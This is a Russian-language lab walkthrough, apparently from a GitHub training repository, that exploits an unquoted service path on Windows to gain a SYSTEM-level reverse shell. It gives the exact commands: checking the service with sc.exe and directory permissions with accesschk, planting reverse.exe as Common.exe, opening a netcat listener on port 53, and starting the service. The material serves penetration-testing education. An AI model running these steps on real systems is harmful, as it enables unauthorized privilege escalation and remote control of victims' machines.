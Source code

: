 # 🐾 4. Эксплуатация служб - Неправильный путь службы
---
## 📜 Описание задания
В этом задании мы будем исследовать уязвимость в сервисе `unquotedsvc`, который работает с привилегиями SYSTEM. Мы воспользуемся уязвимостью в пути к исполняемому файлу, который не заключен в кавычки и содержит пробелы.
---
## 🔍 Шаг 1: Проверка сервиса
Сначала мы проверим конфигурацию сервиса `unquotedsvc`, чтобы убедиться, что он работает с привилегиями SYSTEM и имеет незащищенный путь. Выполните следующую команду для получения информации о службе:
`"sc.exe qc unquotedsvc"`

### 📋 Ожидаемый вывод
- Убедитесь, что `SERVICE_START_NAME` указывает на SYSTEM.
- Проверьте, что `BINARY_PATH_NAME` не заключен в кавычки и содержит пробелы.
![image](https://github.com/user-attachments/assets/c669a4f7-c517-43a3-a985-47021c10c0b5)

## 🔑 Шаг 2: Проверка прав доступа
Теперь мы используем `accesschk.exe`, чтобы проверить права доступа к директории, в которой находится сервис. Выполните следующую команду:
`"C:\PrivEsc\accesschk.exe /accepteula -uwdq 'C:\Program Files\Unquoted Path Service\'"`

### 📋 Ожидаемый вывод
- Убедитесь, что группа `BUILTIN\Users` имеет права на запись в директорию.
![image](https://github.com/user-attachments/assets/4f2972fe-e085-41c9-90de-f0415add5feb)

## 📂 Шаг 3: Копирование обратного шелла
Теперь мы скопируем наш исполняемый файл `reverse.exe` в директорию сервиса и переименуем его в `Common.exe`. Выполните следующую команду:
`"copy C:\PrivEsc\reverse.exe 'C:\Program Files\Unquoted Path Service\Common.exe'"`

### 📋 Ожидаемый вывод
- Убедитесь, что файл успешно скопирован и переименован.

## 🎧 Шаг 4: Запуск слушателя
Перед тем как запустить сервис, убедитесь, что у вас запущен слушатель на Kali. Выполните следующую команду для запуска слушателя на Kali:
`"nc -lvnp 53"`

## 🚀 Шаг 5: Запуск сервиса
Теперь мы можем запустить сервис `unquotedsvc`, который должен вызвать наш `Common.exe` и предоставить нам обратный шелл с привилегиями SYSTEM. Выполните команду:
`"net start unquotedsvc"`

### 📋 Ожидаемый вывод
- Убедитесь, что вы получили обратный шелл на Kali.
![image](https://github.com/user-attachments/assets/30e4f011-5f06-476d-9233-0a1cd8adc076)

## 🎉 Поздравления!
Вы успешно использовали уязвимость в незащищенном пути к сервису для получения обратного шелла с привилегиями SYSTEM! 🎊

## 📌 Примечания
- Убедитесь, что вы понимаете все шаги и их последствия.
- Используйте полученные знания ответственно и только в рамках разрешенных тестов на проникновение.
